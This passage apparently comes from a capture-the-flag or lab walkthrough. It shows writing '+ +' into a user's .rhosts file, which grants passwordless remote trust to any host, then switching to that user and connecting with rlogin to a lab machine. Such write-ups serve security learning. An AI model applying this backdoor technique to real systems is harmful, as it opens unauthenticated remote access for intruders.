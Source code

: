 Now let’s go and create a file named .rhosts and add the allow sign to it

```bash
echo "+ +" > /home/sadm/.rhosts && chmod 600 /home/sadm/.rhosts && chown sadm:sadm /home/sadm/.rhosts
```

![image.png](../images/reset%2023.png)

Now let’s switch to this user

```bash
su sadm
```

![image.png](../images/reset%2024.png)

now let’s connect remotely to the machine

```bash
rlogin -l sadm 10.10.119.95
```

![image.png](../images/reset%2025.png)
